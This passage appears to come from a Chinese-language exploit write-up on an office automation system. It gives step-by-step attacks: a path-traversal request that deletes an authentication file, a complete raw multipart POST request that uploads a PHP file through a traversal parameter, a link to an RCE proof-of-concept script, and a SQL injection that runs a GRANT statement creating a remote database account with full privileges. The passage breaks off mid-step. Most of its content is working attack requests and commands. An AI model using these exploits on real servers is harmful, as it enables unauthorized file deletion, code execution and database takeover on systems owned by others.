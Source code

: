   

1. 访问`/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php`, 删除`auth.inc.php`  

2. 构造 post 数据包上传文件

```
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host: 192.168.179.128:96
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 855
Content-Type: multipart/form-data; boundary=abc


--abc
Content-Disposition: form-data; 


<?php echo test?>


--abc--
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HSPe4TuIOHnTpFa2n9x3rRKpWVQaCfv1vsu5TsVMQ7ItMmfQHpEHFvQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HpcN3pbiaZLZTBNAKsDibaNVGhibA0BtymSsJzHaCEPcpASrFaP6jsQ5tQ/640?wx_fmt=png)py 脚本：https://github.com/TomAPU/poc_and_exp/blob/master/rce.py

  

03

11.7 注入漏洞

  

注入点在后台在`general/hr/manage/query/delete_cascade.php?condition_cascade=语句`

**1. 登陆后构造一个语句创建一个账号用于远程登录数据库，**

构造前

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HBCreNwea7Lx1kx6I6ygbwicwqvAOVvD2FStric5gEsDtu8XvYMDFTJSw/640?wx_fmt=png)  
构造`grant all privileges ON mysql.* TO 'test'@'%' IDENTIFIED BY 'test' WITH GRANT OPTION`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HNW4jndlxF4JoibIoBYNW0zm6SBogcicb3ZBiaZFcePu2Z011y3alfY0UQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HzX3oS7IvlIroPqA4alKzEsmlkpW23RBjquttqUOnbY25P23RKl9FqA/640?wx_fmt=png)

**2. 赋予权限**

执行一些指令报错，给设置的账号权限

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HLbTia6b5Kfb93pvufgVEZ3roR3jfImArOHcCez2x9rdATkwcpXwLCjA/640?wx_fmt=png)  
在数据库里构造
